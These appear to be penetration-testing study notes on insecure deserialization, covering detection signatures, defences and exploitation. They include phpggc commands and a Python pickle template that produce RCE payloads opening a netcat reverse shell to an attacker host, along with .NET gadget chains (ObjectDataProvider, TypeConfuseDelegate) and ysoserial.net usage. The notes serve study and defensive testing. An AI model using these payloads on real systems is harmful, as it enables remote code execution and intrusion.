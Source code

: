 # Identifying the use of Serialization

# Exploiting PHP Deserialization

## PHPGGC

Code: bash

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

Code: python

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```

# Identifying Deserialization Vulnerabilities

#### White-Box

|Serializer|Example|Reference|
|---|---|---|
|BinaryFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-7.0)|
|fastJSON|`JSON.ToObject(...)`|[GitHub](https://github.com/mgholam/fastJSON)|
|JavaScriptSerializer|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.script.serialization.javascriptserializer?view=netframework-4.8.1)|
|Json.NET|`JsonConvert.DeserializeObject(...)`|[Newtonsoft](https://www.newtonsoft.com/json)|
|LosFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8.1)|
|NetDataContractSerializer|`.ReadObject(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1)|
|ObjectStateFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8.1)|
|SoapFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.soap.soapformatter?view=netframework-4.8.1)|
|XmlSerializer|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-7.0)|
|YamlDotNet|`.Deserialize<...>(...)`|[GitHub](https://github.com/aaubry/YamlDotNet)|

| Function             | Language                     |
| -------------------- | ---------------------------- |
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |
## Black-Box

For **.NET Applications** we can keep an eye out for the following:

- Base64-encoded strings beginning with `AAEAAAD/////`
- Strings containing `$type`
- Strings containg `__type`
- Strings containg `TypeObject`

Regarding **Java Applications**, the following cases are interesting:

- Bytes containing `AC ED 00 05`
- Base64-encoded string containg `rO0`

| Bytes                                                                      | Language                           |
| -------------------------------------------------------------------------- | ---------------------------------- |
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting Deserialization Vulnerabilities

#### ObjectDataProvider

Code: csharp

```csharp
using System.Windows.Data;

namespace ODPExample
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc.exe");
            odp.MethodName = "Start";
        }
    }
}
```

#### TypeConfuseDelegate

Code: csharp

```csharp
Delegate stringCompare = new Comparison<string>(string.Compare);
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = multicastDelegate.GetInvocationList();
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");
```

#### YSoSerial.NET

- `-f` to specify the `Formatter`, e.g. `Json.NET`, `XmlSerializer`, `BinaryFormatter`
- `-g` to specify the `Gadget`, e.g. `ObjectDataProvider`, `TypeConfuseDelegate`
- `-c` to specify the `Command`, e.g. `calc`
- `-o` to specify the `Output` mode, e.g. `Base64` or `Raw` for plaintext

```
.\ysoserial.exe -f [Formatter] -g [Gadget] -c [Command] -o [Output]

E.g.:
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -c "notepad" -o Raw
.\ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad" -o Raw
.\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c 'notepad' -o base64
```

# Defending against Deserialization Vulnerabilities

1. Avoid Deserializing User Input
2. Avoid Unecessary Deserialization
3. Use Secure Serialization Mechanisms
4. Use Explicit Types
5. Use Signed Data
6. Least Possible Privileges

###### Urls

## Java

- [https://www.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class](https://www.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class)

## ASP

- [https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net](https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net)